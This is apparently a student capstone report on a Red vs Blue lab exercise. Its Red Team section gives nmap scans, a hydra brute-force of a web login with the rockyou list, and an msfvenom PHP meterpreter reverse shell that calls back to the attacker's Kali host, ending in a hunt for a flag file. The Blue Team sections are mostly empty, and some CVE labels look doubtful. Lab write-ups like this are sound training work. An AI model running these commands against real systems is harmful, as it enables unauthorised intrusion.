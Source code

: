 ## Capstone Red vs Blue CySec Report

Author: Min Young Lee

## Preface
This is a cybersecurity project report on a network vulnerability.  There are two parts of this project: the attacker (Red Team) and the victim (Blue Team).  The Red Team is tasked with identifying vulnerabilities in the network and exploiting the found vulnerabilities.  The Blue Team is tasked with detecting malicious activities on the network and mitigating the identified malicious attacks.  

## Network Topology

![](img url)

| Hostname| IP Address | Role on Network |
| ------------------ | ------------------ |------------------ |
|ML-RefVM-684427| 192.168.1.1 | NATSwitch|
|Capstone |192.168.1.105 |Web server|
|Kali |192.168.1.90 |Pen. test system|
|ELK |192.168.1.100| SIEM system|

# Red Team
## Recon
## Vulnerability Assessment 

|Vulnerability| Description| Impact|
| ------------------ | -------- |------------------ |
|Apache Directory Listing CVE-2007-0450|Allows browser traversal to realdirectories on Capstone Apacheweb server|Allowed attackers to reveal the ip address and the secret folder|
|No Failed Login Lockout| No account lockdown when excessive login failures occurred within a short period of time| Brute force attack was possible to gain access to Ryan’s login information |
|Weak Password| The password was available on a common password library such as “rockyou”| The brute force attack was able to identify the login password.|
|Reverse Shell Backdoor CVE-2019-13386| Allows to send a reverse shell payload on a web server while the firewalls do not detect the payload |Attackers gained the remote backdoor access to the Capstone web server|
|Weak Hashed Password |Unsalted hashed information which can be decrypted using various web applications to decode |The hashed information, the CEO login information, was decoded.  |
|Simplistic Username| Usage of the common names or real names as a login ID |By having an access to the directory, the attack was able to identify the login IDs |
|Root Accessibility| The anonymous commands has an access to the resources |The attacker was able to connect to devices|
|Unencrypted Credentials |The stored values of usernames and passwords, both passwords and the hashed passwords, were in a plain text |The attacker was able to gain access to the login IDs and passwords|

## Exploitation(s) 
### Apache Directory Listing CVE-2007-0450
	netdiscover -r 192.168.1.255/16

	nmap -sV 192.168.1.1-105

	nmap -sS -A 192.168.1.105

	wget 192.168.1.105 /meet_our_team/ashton.txt

### No Failed Login Lockout
	hydra -l ashton -P /usr/share/wordlists/rockyou .txt -s 80 -f -vV 192.168.1.105 http-get/company_folders/secret_folder/ -t 60

### Reverse Shell Backdoor CVE-2019-13386
	msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.90 LPORT=4444 -f raw > shell.php

Login to webdav as Ryan to move the payload
Listen to host: 192.168.1.90 & port:4444

	meterpreter> shell
	>find / -name flag.txt 2>/dev/null
	>cat flag.txt

# Blue Team
![](https://github.com/ActualSalt/Capstone-Red-vs-Blue-CySec-Report/blob/main/images/brutefoce_evidence.png?raw=true)
![](https://github.com/ActualSalt/Capstone-Red-vs-Blue-CySec-Report/blob/main/images/identfy_scan.png?raw=true)
![](https://github.com/ActualSalt/Capstone-Red-vs-Blue-CySec-Report/blob/main/images/request_hidden_directory.png?raw=true)
## Vulnerability Analysis 
## Hardening
# Assessment Summary 
